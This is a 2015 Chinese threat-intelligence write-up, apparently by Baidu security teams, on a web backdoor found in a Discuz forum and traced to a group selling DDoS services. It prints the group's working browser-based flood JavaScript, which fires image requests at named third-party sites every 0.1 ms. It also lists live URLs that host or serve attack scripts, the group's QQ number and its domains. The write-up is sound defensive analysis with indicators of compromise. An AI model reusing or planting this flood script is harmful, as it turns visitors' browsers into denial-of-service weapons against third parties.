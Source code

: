 # 从异常挖掘到CC攻击地下黑客团伙

[ 百度安全攻防实验室](/author/百度安全攻防实验室) · 2015/11/25 0:31

Author: 百度云安全天网团队 百度安全攻防实验室 百度云安全云端防护团队

# 0x00 异常挖掘与回溯

* * *

11月13日，百度云安全天网系统，通过数十TB的日志挖掘，发现了安全宝某重点客户网站上的异常行为。之后我们的分析人员跟进，发现这是一起针对安全宝某重点客户的持续攻击。最终在客户系统上放置了Web后门。

该Web后门的通信如下：

    
    
    POST /uc_server/data/logs/20140708.php?v=1a HTTP/1.1
    Host: bbs.xxxxx.com
    Referer: http://bbs.xxxxx.com/uc_server/data/logs/20140708.php?v=1a
    User-Agent: Sogou
    Content-Length: 60
    

从通信流量上看，并未触发任何报警。同时，客户的日志里也并未保存http response的数据。

天网系统中的谛听模块通过对网站的访问行为进行建模，通过每个被防护的网站日志训练出这个网站特有的访问模型。包括网站参数的模型，网站访问路径的模型，网站访问session的模型。黑客这次的访问行为触发了网站访问路径模型的异常。该模型中通过每个路径访问的频度广度和路径之间的访问关系等feature，训练出针对每个网站特定的路径视图。

我们在系统中对该客户的所有历史日志进行了回溯，发现该黑客在9月24日就已经对该客户展开了尝试性的攻击。

通过进一步的分析，我们发现，该攻击者修改了Discuz系统的class_core.php。在该class_core.php中添加的代码如下：

![](http://static.wooyun.org//drops/20151124/2015112412000698099p12.jpg)

从该代码中，我们可以做出以下结论：

  1. 这次攻击不是小范围的针对单个站点的攻击，而是攻击了多个站点
  2. 该代码中并未指定特定的CC攻击的目标，而是通过Location统一跳转到<http://file.lbgoo.com/file_120/37/ver.php>，由该url指定最终的攻击目标。

# 0x01 影响确认和攻击代码

* * *

我们从CC的攻击代码中提取了以下特征fuwuqibeiheikeruqin，在现有的网页情报库中搜索，发现以下的链接地址：

[http://www.eoeandroid.com/forum.php?wangzhanbeihei&fuwuqibeiheikeruqin&qinggenghuanfuwuqi&chongzhuangwangzhan](http://www.eoeandroid.com/forum.php?wangzhanbeihei&fuwuqibeiheikeruqin&qinggenghuanfuwuqi&chongzhuangwangzhan)

判断eoeandroid也被这样攻击过。

11月20日，<http://file.lbgoo.com/file_120/37/ver.php>请求被重定向到<http://www.eoeandroid.com/forum.php?>，11月20日发现eoeandroid已经503了。该攻击手法被进一步确认。

我们又对该代码中提及到的`php100.com`,`www.dm123.cn`和`12edu.com`进行访问。发现如下：

以dm123.cn为例：

![](http://static.wooyun.org//drops/20151124/2015112412074045322p21.jpg)

显然该网站被利用来做CC攻击。

同时我们针对以上网站挂CC攻击的js进行了分析，发现有三种:

  1. dm123.cn中，直接在dm123网站上挂js，脚本路径如下:  
<http://www.dm123.cn/gd.js>

  2. php100.com中，托管在SAE上的攻击脚本，脚本路径如下:  
<http://jsddos.sinaapp.com/ddos.js>

  3. 12edu.com中，通过api接口动态获得要攻击的网站，更加难以定位:  
[http://www.12edu.com/api.php?op=count&id=34380&modelid=1](http://www.12edu.com/api.php?op=count&id=34380&modelid=1)

以上三种方式，从扫描器检测的角度来看，复杂度逐渐增大。第一种情况下，是直接检测本域下的js。第二种则需要检测外链js，检测量大大增大了。而第三种则是在已有的js里面没有攻击代码。攻击的代码是通过api接口动态获得的。

**攻击用的js代码如下：**
    
    
    #!js
    function imgflyygffgdsddfgd() {
    var TARGET = 'www.hanyouwang.com'
    var URI = '/index.php?wangzhanbeihei&fuwuqibeiheikeruqin&qinggenghuanfuwuqi&chongzhuangwangzhan&'
    var pic = new Image()
    var rand = Math.floor(Math.random() * 1000)
    pic.src = 'http://'+TARGET+URI+rand+'=val'
    }
    setInterval(imgflyygffgdsddfgd, 0.1)
    function imgflyygffhghddfgd() {
    var TARGET = 'www.weshequ.com'
    var URI = '/Search/v-wangzhanbeihei&fuwuqibeiheikeruqin&qinggenghuanfuwuqi&chongzhuangwangzhan&'
    var pic = new Image()
    var rand = Math.floor(Math.random() * 1000)
    pic.src = 'http://'+TARGET+URI+rand+'=val'
    }
    setInterval(imgflyygffhghddfgd, 0.1)
    

**被攻击域名**包括重要政府网站和国家级新闻媒体

# 0x02 身份确认

* * *

通过域名的相似度，我们在现有的网页情报库中发现了如下域名：

  * 博客：<http://jsddos.blog.163.com/>
  * 论坛：<http://www.jsddos.com/>

在163博客上可以看到，该团队名 ddos Js团队，QQ 1551227222

在网页情报库中查找该QQ，可以发现<http://www.mspycn.com/about.html>

看来除了卖ddos的服务，还在卖手机监听软件的服务

对该域名的whois进行查询，如下：

![](http://static.wooyun.org//drops/20151124/2015112411580894934p3.jpg)

从我们发现该攻击到发稿前，该黑客做了如下的事情:

  1. 修改了<http://file.lbgoo.com/file_120/37/ver.php>的指向
  2. Php100.com已经不再受影响

# 0x03 后续

* * *

我们有理由相信，这是一个在不断进化的地下黑客团体。通过更加隐蔽的手法进行CC攻击挂马。该问题的影响范围目前我们还在进一步确认。欢迎业内同仁继续跟进分析。

如果你想查看自己的网站是否受影响，有两个步骤：

  1. 打开网站，随机访问几个页面，查看下面是否会发起连续的对其他网站的请求
  2. 查看是否会发起请求：<http://file.lbgoo.com/file_120/37/ver.php>

我们从该攻击中提取了以下信息作为攻击情报或者IOC：

<http://file.lbgoo.com/file_120/37/ver.php>

